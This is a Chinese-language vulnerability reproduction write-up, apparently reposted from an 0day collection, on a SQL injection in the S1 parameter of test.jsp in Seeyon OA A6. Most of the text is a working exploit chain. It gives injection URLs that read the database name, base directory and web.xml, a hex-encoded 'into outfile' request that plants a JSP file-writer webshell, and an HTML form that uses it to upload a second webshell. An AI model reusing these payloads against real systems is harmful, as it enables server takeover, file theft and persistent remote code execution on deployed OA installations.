

# 致远 OA A6 test.jsp sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/2.html](http://book.iwonder.run/0day/致远 oa/2.html)

## 一、漏洞简介

致远 A6 协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数 SQL 注入漏洞

## 二、漏洞影响

致远 OA A6

## 三、复现过程

注入点为 S1 变量，通过探测，发现是 mysql 数据库

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1= 
```

于是构造注入语句查询数据库名：

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database()) 
```



Mysql 注入中，我们使用 into outfile 来写入数据，用此方法注入 webshell，前提条件两个：

*   1：root 权限

*   2：物理路径

我们探测一下 web 根目录

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir) 
```


通过 yyoa 目录结构猜测物理路径为

```
F:/UFseeyon/OA/tomcat/webapps/yyoa/ 
```

可以使用 load_file 判断是否正确

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27) 
```

利用 mysql into outfile 写 shell：由于 jsp 一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行 webshell 上传：

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%> 
```

由于特殊符号存在，URL 编码会造成写入后代码错误，故采用 hex 编码后 unhex 处理上传，写入文件名为：he1p.jsp

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27 
```

本地构造上传：

```
<html>
    <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
        <textarea name=t cols=120 rows=10 width=45>your code</testarea>
        <input type=submit value="提交">
    </form>
</html> 
```

上传后获取 webshell 地址为：[http://www.0-sec.org/yyoa/we1come.jsp](http://www.0-sec.org/yyoa/we1come.jsp)

## 参考链接

> [https://www.pa55w0rd.online/yyoa/](https://www.pa55w0rd.online/yyoa/)

